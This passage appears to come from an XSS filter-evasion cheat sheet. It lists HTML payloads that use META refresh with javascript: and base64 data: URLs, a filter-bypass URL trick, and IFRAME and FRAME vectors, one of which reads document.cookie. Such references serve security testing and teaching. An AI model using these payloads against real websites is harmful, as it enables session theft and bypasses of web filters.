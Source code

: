 ### META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
```

#### META using Data

Directive URL scheme. This attack method is nice because it also doesn't have anything visible that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see [RFC 2397](https://datatracker.ietf.org/doc/html/rfc2397) for more details.

```html
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

#### META with Additional URL Parameter

If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade this filter rule with the following technique:

```html
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

(Submitted by Moritz Naumann)

### IFRAME

If iFrames are allowed there are a lot of other XSS problems as well:

```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

### IFRAME Event Based

IFrames and most other elements can use event based mayhem like the following:

```html
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

(Submitted by: David Cross)

### FRAME

Frames have the same sorts of XSS problems as iFrames

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

### TABLE
